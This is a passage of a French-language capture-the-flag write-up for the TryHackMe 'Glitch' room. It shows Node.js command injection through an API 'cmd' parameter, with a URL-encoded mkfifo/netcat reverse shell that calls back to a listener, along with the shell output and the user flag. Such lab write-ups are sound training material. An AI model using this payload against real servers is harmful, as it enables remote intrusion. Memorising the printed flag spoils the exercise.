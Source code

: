 
C'est du node.js il faut trouver un exploit.   

```text
require("child_process").exec('rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.9.228.66 1234 >/tmp
```

Nous allons utiliser ce reverse shell.  

```bash
tim@kali:~/Bureau/tryhackme/write-up$ urlencode "require(\"child_process\").exec('rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.9.228.66 1234 >/tmp/f ')"
require%28%22child_process%22%29.exec%28%27rm%20%2Ftmp%2Ff%3Bmkfifo%20%2Ftmp%2Ff%3Bcat%20%2Ftmp%2Ff%7C%2Fbin%2Fsh%20-i%202%3E%261%7Cnc%2010.9.228.66%201234%20%3E%2Ftmp%2Ff%20%27%29
```

On encode notre reverse shell.   

```bash
tim@kali:~/Bureau/tryhackme/write-up$ nc -lvnp 1234
listening on [any] 1234 ...

```

On écoute le port 1234 pour établir une connexion avec le reverse shell.    

```bash
tim@kali:~/Bureau/tryhackme/write-up$ curl -X POST http://glitch.thm/api/items\?cmd\=require%28%22child_process%22%29.exec%28%27rm%20%2Ftmp%2Ff%3Bmkfifo%20%2Ftmp%2Ff%3Bcat%20%2Ftmp%2Ff%7C%2Fbin%2Fsh%20-i%202%3E%261%7Cnc%2010.9.228.66%201234%20%3E%2Ftmp%2Ff%20%27%29
vulnerability_exploited [object Object]
```

On exécute le reverse shell.  

```bash
tim@kali:~/Bureau/tryhackme/write-up$ nc -lvnp 1234
listening on [any] 1234 ...
connect to [10.9.228.66] from (UNKNOWN) [10.10.248.246] 48928
/bin/sh: 0: can't access tty; job control turned off
$ 
```

**What is the content of user.txt?**

On obtient un shell.   

```bash
$ id
uid=1000(user) gid=1000(user) groups=1000(user),30(dip),46(plugdev)
$ cat /home/user/user.txt
THM{i_don't_know_why}
```

On voit que l'on a les droits user.    
On peut lire le fichier user.txt.   

La réponse est : THM{i_don't_know_why}    

**What is the content of root.txt?**

